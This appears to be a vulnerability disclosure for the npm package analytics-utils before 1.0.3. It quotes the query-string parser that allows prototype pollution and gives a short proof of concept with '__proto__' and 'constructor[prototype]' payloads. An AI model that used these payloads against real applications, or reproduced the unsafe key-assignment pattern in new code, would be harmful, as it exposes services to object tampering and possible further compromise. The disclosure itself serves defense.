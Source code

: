 ## analytics-utils < 1.0.3

URL: 

https://github.com/DavidWells/analytics/tree/master/packages/analytics-utils <br />
https://www.npmjs.com/package/analytics-utils

### Vulnerable code fragment

https://github.com/DavidWells/analytics/blob/641a9172130d2bb2e0bf524e649450bc34f90298/packages/analytics-utils/src/paramsParse.js#L31-L67

```js
function getParamsAsObject(query) {
  let params = {}
  let temp
  const re = /([^&=]+)=?([^&]*)/g

  while (temp = re.exec(query)) {
    var k = decodeUri(temp[1])
    var v = decodeUri(temp[2])
    if (k.substring(k.length - 2) === '[]') {
      k = k.substring(0, k.length - 2);
      (params[k] || (params[k] = [])).push(v)
    } else {
      params[k] = (v === '') ? true : v
    }
  }

  for (var prop in params) {
    var arr = prop.split('[')
    if (arr.length > 1) {
      assign(params, arr.map((x) => x.replace(/[?[\]\\ ]/g, '')), params[prop])
      delete params[prop]
    }
  }
  return params
}

function assign(obj, keyPath, value) {
  var lastKeyIndex = keyPath.length - 1
  for (var i = 0; i < lastKeyIndex; ++i) {
    var key = keyPath[i]
    if (!(key in obj)) { 
      obj[key] = {} 
    }
    obj = obj[key]
  }
  obj[keyPath[lastKeyIndex]] = value
}
```

### PoC

```
?__proto__[test]=test
?constructor[prototype][test]=test
```

```js
utils = require('analytics-utils')

utils.paramsParse('?__proto__[test]=test')
utils.paramsParse('?constructor[prototype][test]=test')
```